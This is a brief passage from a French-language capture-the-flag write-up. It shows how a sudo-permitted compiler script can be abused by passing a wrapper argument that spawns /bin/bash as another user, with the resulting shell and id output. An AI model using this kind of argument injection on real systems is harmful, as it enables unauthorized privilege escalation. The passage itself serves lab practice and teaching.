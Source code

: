 Vu dans d'autres writeups : Il était possible d'utiliser le script bash pour lui faire utiliser le GTFObin directement :

```console
krishna@ck05:~$ sudo -u loopspell /home/loopspell/code_compiler.sh "-wrapper /bin/bash,-s ."
Code is being compiling ...
loopspell@ck05:~$ id
uid=1002(loopspell) gid=1002(loopspell) groups=1002(loopspell)
```
